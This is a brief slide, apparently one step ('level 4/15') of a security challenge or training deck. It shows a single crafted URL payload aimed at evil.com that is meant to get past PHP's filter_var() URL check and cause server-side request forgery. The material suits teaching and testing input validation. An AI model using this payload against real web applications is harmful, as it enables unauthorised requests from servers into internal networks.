

# level 4/15
Bypass filter_var() php function to SSRF:
0://evil.com:80;http://google.com:80/